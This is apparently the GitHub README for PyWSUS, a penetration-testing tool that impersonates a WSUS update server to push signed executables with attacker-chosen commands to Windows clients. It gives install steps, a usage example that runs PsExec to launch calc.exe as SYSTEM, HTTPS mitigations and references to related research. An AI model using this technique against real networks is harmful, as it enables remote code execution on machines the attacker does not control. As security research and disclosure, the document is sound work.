 # PyWSUS
The main goal of this tool is to be a standalone implementation of a legitimate WSUS server which sends malicious responses to clients. The MITM attack itself should be done using other dedicated tools, such as [Bettercap](https://github.com/bettercap/bettercap).

## Installation

### Using `pipx`
```
pipx install git+https://github.com/GoSecure/pywsus
```

### Using `virtualenv`
```
git clone https://github.com/GoSecure/pywsus
cd pywsus
virtualenv -p /usr/bin/python3 ./venv
source ./venv/bin/activate
python setup.py install
```

## Usage
```
usage: pywsus [-h] -H HOST [-p PORT] -e EXECUTABLE -c COMMAND [-v]

OPTIONS:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  The listening adress.
  -p PORT, --port PORT  The listening port.
  -e EXECUTABLE, --executable EXECUTABLE
                        The Microsoft signed executable returned to the client.
  -c COMMAND, --command COMMAND
                        The parameters for the current executable.
  -v, --verbose         Increase output verbosity.

Example: python pywsus.py -H X.X.X.X -p 8530 -e PsExec64.exe -c "-accepteula -s calc.exe"
```

## Mitigations
From our perspective, the best way to avoid exploitability of this issue is to force WSUS deployments to use a secured HTTPS channel.

The certificate presented by the WSUS server must be validated by the client. Error in validating the certificate will result in the wupdate client closing the connection.

The three major ways of generating a certificate for a WSUS server are:
- Using an internal PKI for which a Root CA certificate is deployed on domain computers and a certificate signed by that Root CA is used to serve WSUS updates
- Purchasing a certificate signed by a third-party CA authority trusted in the Windows OS trust store
- Using a self-signed certificate and push a copy of this certificate on all domain computers using a GPO

On the detection side, a client enrolled with WSUS will report their installed updates inventory periodically. Looking for installed updates that stand-out from the ones approved and deployed could be a way to detect such attack. This is a preliminary idea that we have not explored yet. Let us know on Twitter or LinkedIn if you have any experience doing this kind of installed patches differential analysis at the scale of an organization.

## Acknowledgements
For their contributions to this research and blogpost.
* Olivier Bilodeau from GoSecure
* Romain Carnus from GoSecure 
* Laurent Desaulniers from GoSecure 
* Maxime Nadeau from GoSecure 
* Mathieu Novis from SecureOps

For writing and researching the original proxy PoC
* Paul Stone and Alex Chapman from Context Information Security

## Reference
* WSuspicious, turn-key CVE-2020-1013 local privilege escalation exploit - https://github.com/GoSecure/WSuspicious
* WSUS Attacks Part 1: Introducing PyWSUS - https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/
* WSUS Attacks Part 2: WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day: https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/
* WSUS Attacks Part 3: GoSecure Investigates Abusing Windows Server Update Services (WSUS) to Enable NTLM Relaying Attacks: https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/
* WSUXploit - https://github.com/pimps/wsuxploit
* WSUSpect Proxy - https://github.com/pdjstone/wsuspect-proxy
* WSUSpendu - https://github.com/AlsidOfficial/WSUSpendu
* Dummywsus - https://github.com/whatever127/dummywsus
* Windows Update Services: Client-Server Protocol
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wusp/b8a2ad1d-11c4-4b64-a2cc-12771fcb079b?redirectedfrom=MSDN
